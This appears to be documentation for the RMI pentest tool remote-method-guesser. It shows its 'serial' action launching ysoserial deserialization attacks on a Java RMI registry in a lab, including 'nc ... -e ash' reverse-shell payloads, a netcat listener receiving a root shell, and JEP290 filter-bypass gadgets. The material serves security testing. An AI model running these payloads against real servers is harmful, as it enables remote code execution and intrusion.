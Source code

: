 #### serial

*Java RMI* uses *Java serialized objects* within the client server communication. This makes it potentially vulnerable
to *deserialization attacks*. These attacks can target different *RMI components*:

* Well known *RMI components* (*RMI internals*)
  * *RMI registry*
  * *DGC*
  * *Activator*
* User defined *RemoteObjects* (*application level*)


##### Well Known RMI Components

Whereas modern *RMI servers* apply *deserialization filters* on these *well known RMI components* (*JEP290*), older servers may still be vulnerable to *deserialization
attacks*. *remote-method-guesser* allows to verify this by using the ``serial`` action, that can perform deserialization attacks on the *Activator*, *Distributed
Garbage Collector* (*DGC*) or the *RMI registry*.

```console
[qtc@devbox ~]$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --component reg
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI Registry endpoint...
[+]
[+] 	Caught ClassCastException during deserialization attack.
[+] 	Deserialization attack was probably successful :)

[qtc@devbox ~]$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:46209.
id
uid=0(root) gid=0(root) groups=0(root)
```

In case of the *RMI registry*, the *deserialization filters* may be bypassed by using the [JRMPClient](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/JRMPClient.java)
or the [An Trinh](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/) bypass gadgets. These gadgets create an *outbound RMI channel*
that does no longer apply *deserialization filters*. On this channel, deserialization attacks can be applied as usual, but both bypasses were patched
in the most recent versions of *Java RMI*.

```console
[qtc@devbox ~]$ rmg serial 172.17.0.2 9010 AnTrinh 172.17.0.1:4444 --component reg 
[+] Attempting deserialization attack on RMI Registry endpoint...
[+]
[+] 	Caught javax.management.BadAttributeValueExpException during deserialization attack.
[+] 	This could be caused by your gadget an the attack probably worked anyway.
[+] 	If it did not work, you can retry with --stack-trace to see the details.

[qtc@devbox ~]$ rmg listen 172.17.0.1 4444 CommonsCollections6 'nc 172.17.0.1 4445 -e ash'
[+] Creating ysoserial payload... done.
[+] Creating a JRMPListener on 172.17.0.1:4444.
[+] Handing off to ysoserial...
Have connection from /172.17.0.2:55470
Reading message...
Sending return with payload for obj [0:0:0, 123]
Closing connection

```